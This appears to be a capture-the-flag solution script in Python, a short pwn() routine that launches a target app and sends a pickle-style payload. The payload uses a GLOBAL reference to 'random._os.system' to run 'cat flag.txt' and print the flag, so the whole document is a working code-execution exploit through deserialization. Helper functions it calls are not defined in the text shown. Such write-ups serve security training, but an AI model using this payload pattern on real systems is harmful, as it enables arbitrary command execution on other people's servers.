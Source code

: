 ```python
def pwn():
    send_payload(b"GLOBAL('app', 'random._os.system')('cat flag.txt')")
    flag = get_flag()
    print(flag)

if __name__ == '__main__':
    io = process(['python', 'app.py'])
    compiler = Compiler()
    pwn()
```
